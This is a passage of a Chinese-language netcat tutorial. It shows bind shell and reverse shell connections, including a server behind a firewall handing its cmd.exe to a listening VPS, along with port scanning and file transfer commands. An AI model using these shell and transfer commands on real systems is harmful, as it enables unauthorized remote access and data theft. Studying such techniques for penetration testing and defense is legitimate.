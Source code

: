 ②在内网主动连接服务器的5555端口，可直接获取目标的cmdshell  

```
nc -nvv 192.168.1.98 5555
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

反向连接场景：目标设备在内网，防火墙阻止外来流量。绑定服务器的cmdshell并反向连接到vps(192.168.1.4)的TCP端口  

①vps开启监听

```
nc -lp 5555
```

②服务器内网链接vps 5555端口，主动交出自己的cmdshell

```
nc -t -e cmd.exe 192.168.1.4 5555
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

###   

### **2.2 端口探测**  

NC可以作为客户端工具对目标进行端口探测：

```
`nc -vz -w 2 192.168.1.10 9999``# -v可视化，-z扫描时不发送数据，-w超时几秒，后面跟数字`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)使用NC工具批量探测服务器连续端口：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

###   

### **2.3 文件传输**  

**①**正向传输：服务器先侦听端口，本地向服务器所在机器的该端口发送数据

```
`#服务器启动监听，将9995端口接收到的数据都写到test文件里``nc -l -p 9995 > test`
```

```
`#本地往服务器的9995端口发送数据``nc 192.168.1.4 9995 < 1.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
